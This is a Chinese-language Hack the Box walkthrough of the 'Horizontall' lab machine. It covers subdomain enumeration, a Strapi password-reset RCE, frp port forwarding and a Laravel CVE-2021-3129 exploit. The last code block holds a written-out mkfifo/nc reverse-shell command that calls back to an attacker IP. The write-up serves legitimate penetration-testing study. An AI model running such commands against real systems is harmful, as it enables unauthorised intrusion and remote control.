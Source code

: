 ```yaml
---
title: Horizontall
date: 2022-01-09 20:35:15
tags: Hack the Box
categories: CMS
---
```


## 信息收集
目标主机只开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6ea98b32b994a8f8a0cf9c759db1cee.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们直接访问web服务，发现是一个正常的网页，扫描目录也没有发现有价值的信息

```bash
gobuster dir -u "http://horizontall.htb/" -w /usr/share/seclists/Discovery/Web-Content/common.txt -e 404,500 -t 50
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f6b30b44e96d409f934b299e104245eb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

那我们将注意力转移到子域名上，对子域名进行深入挖掘，发现了一个子域名，那么我们可以实施旁站注入

```bash
gobuster vhost -u http://horizontall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2cf9c69827e84e87b9616816c817376d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
访问这个页面时发现使用的是`strapi`这个CMS
![在这里插入图片描述](https://img-blog.csdnimg.cn/3724c08fac2d427f80427e762141b930.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们依照这个路径进行路径的扫描，发现存在一个admin目录，我们访问发现会跳转到登录表单上

```bash
gobuster dir -u "http://api-prod.horizontall.htb/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e 404,500 -t 50
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/19c0c71aaef14180949dead326bc5c37.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
尝试了一遍SQL注入，发现不存在SQL注入的问题。那我们转向中间件漏洞这个方向上，在EDB上查找到存在一个密码重置的RCE漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/fd1458a74a574a918911ef0a1ae87cfe.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/acf1f0e8aea34dacb917647d4ee1f190.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们编辑为一个exp文件，并执行它获取到一个用户交互的shell终端。这里显示用户名和密码是`admin:SuperStrongPassword1`
![在这里插入图片描述](https://img-blog.csdnimg.cn/d93aa5dc52404922aadb13f884d33ccf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
登录进页面发现存在文件上传点，但是这个并不能进行文件上传getshell
![在这里插入图片描述](https://img-blog.csdnimg.cn/8b81cd2146e843a5941549c0bfe46564.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现这个EXP是存在RCE命令执行的功能的，那我们可以在交互终端上进行反弹一个shell给我们
![在这里插入图片描述](https://img-blog.csdnimg.cn/88522af59e4e42d2bd77c449691c2e62.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
我们将linpeas.sh脚本下载到目标机器上，尝试看看有没有存在提权的突破点
![在这里插入图片描述](https://img-blog.csdnimg.cn/a7e43564181146d0b3e82efaac54674a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
运行脚本后，但是我们并没有发现任何可提权的点，但是我们查看主机运行的端口可以发现，主机的1337端口正在以root身份运行程序，由于我们用nmap无法扫描出该端口，可以推断主机做了内网端口的转发。
![在这里插入图片描述](https://img-blog.csdnimg.cn/0638be03f2764c3f9db143944921a40f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以使用frp进行内网的端口复用，首先先将`frpc`和`frpc.ini`上传到目标主机上，上传成功后设置好我们本机的ip地址和要转发本地端口和远程端口
![在这里插入图片描述](https://img-blog.csdnimg.cn/5b03de7f59a043c887497c243c893d3d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
在目标机器和本机上分别开启监听服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/28bf83b3599646c89714b357a407787f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们访问本机的8000端口，发现是一个由Laravel框架搭建起来的网页程序
![在这里插入图片描述](https://img-blog.csdnimg.cn/8581ba2866b940708a56f715327a7152.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
这个应用程序近年发现一个存在RCE的漏洞，在github上可以搜到对应的EXP漏洞利用脚本，并执行可见漏洞利用成功
[https://github.com/LucifielHack/CVE-2021-3129_exploit](https://github.com/LucifielHack/CVE-2021-3129_exploit)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e95aaf54fdb343a199cf7ec03bc27d52.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们可以反弹一个root的shell到本机上

```bash
./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 4445 >/tmp/f"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d4a8f62eb834cb78ddc826a02de9132.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/db008ce7bfb14ce78f99c0d2534651e1.png)
